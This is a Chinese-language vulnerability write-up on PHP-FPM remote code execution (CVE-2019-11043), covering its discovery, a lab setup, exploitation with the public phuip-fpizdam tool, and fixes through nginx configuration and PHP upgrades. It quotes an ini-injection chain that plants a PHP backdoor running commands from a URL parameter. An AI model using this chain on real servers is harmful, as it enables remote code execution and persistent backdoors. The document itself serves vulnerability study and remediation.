 # PHP-FPM Remote Code Execution(CVE-2019-11043)

## 起因

国外安全研究员 Andrew Danau在解决一道 CTF 题目时发现，向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

## 原理

A small memory defect to code execution.

It combines both binary and web technique.

https://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html

### 上溢和下溢

上溢：

是当一个超长的数据进入到缓冲区时，超出部分被写入上级缓冲区，上级缓冲区存放的可能是数据、上一条指令的指针，或者是其他程序的输出内容，这些内容都被覆盖或者破坏掉。可见一小部分数据或者一套指令的溢出就可能导致一个程序或者操作系统崩溃。

下溢：

与之对应的就是下溢，下溢是当一个超长的数据进入到缓冲区时，超出部分被写入下级缓冲区，下级缓冲区存放的是下一条指令的指针，或者是其他程序的输出内容。

在JavaScript中，下溢是指当运算结果无限接近于零并比JavaScript能表示的最小值还小的时候发生的一种情形。


## 环境搭建

https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043

## 利用

	go get github.com/neex/phuip-fpizdam

	./phuip-fpizdam url

发送payload：

![](1.png)

![](3.jpg)

在数据包中，header中的最后两部分就是为了完成这部分功能。

其中D-Gisos负责位移，向指定的位置写入数据。

将Ebut置于指定位置而Ebut会转化为```HTTP_EBUT```这个```fastcgi_param```中的其中一个全局变量。fastcgi想要获取全局变量时，会读取指定位置的长度字符做对比(会判断变量的哈希与长度)，然后读取一个字符串作为value.

也就是说，只要位置合理，var值相同，且长度相同，fastcgi就会读取相对应的数据，这也就意味着我们可以控制PHP的任意全局变量。

```HTTP_EBUT```是漏洞发现者fuzz出的与```PHP_VALUE```哈希一致，长度也一致的变量。

https://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html 文章中提到的可利用的攻击链：

	var chain = []string{
	    "short_open_tag=1",
	    "html_errors=0",
	    "include_path=/tmp",
	    "auto_prepend_file=a",
	    "log_errors=1",
	    "error_reporting=2",
	    "error_log=/tmp/a",
	    "extension_dir=\"<?=`\"",
	    "extension=\"$_GET[a]`?>\"",
	}

可以控制全局变量之后，有多种攻击方法，下面介绍漏洞发现者提供的方法：开启自动包含，并设置包含目录为/tmp，之后设置log地址为/tmp/a并将payload写入log文件，通过```auto_prepend_file```自动包含/tmp/a文件构造后门文件。

进入docker容器内部 tmp目录：

![](2.jpg)

## 影响范围

php 7，Nginx + php_fpm

The buffer underflow in php-fpm is present in PHP version 5. However, this exploit makes use of an optimization used for storing FastCGI variables, [```_fcgi_data_seg```](https://github.com/php/php-src/blob/5d6e923/main/fastcgi.c#L186). This optimization is present only in php 7, so this particular exploit works only for php 7. There might be another exploitation technique that works in php 5.

这个漏洞对真实世界危害有限，其主要原因都在于大部分的nginx配置中都携带了对文件的检查，且默认的nginx配置不包含这个问题。

但也正是由于这个原因，在许多网上的范例代码或者部分没有考虑到这个问题的环境，例如Nginx官方文档中的范例配置、NextCloud默认环境，都出现了这个问题，该漏洞也正真实的威胁着许多服务器的安全。

https://zhuanlan.zhihu.com/p/88995787

## 漏洞修复

临时修复：

修改nginx相应的配置，并在php相关的配置中加入

try_files $uri =404

在这种情况下，会有nginx去检查文件是否存在，当文件不存在时，请求都不会被传递到php-fpm。

正式修复：

将PHP 7.1.X更新至7.1.33 https://github.com/php/php-src/releases/tag/php-7.1.33

将PHP 7.2.X更新至7.2.24 https://github.com/php/php-src/releases/tag/php-7.2.24

将PHP 7.3.X更新至7.3.11 https://github.com/php/php-src/releases/tag/php-7.3.11


## 参考资料


https://bugs.php.net/bug.php?id=78599

![](4.png)

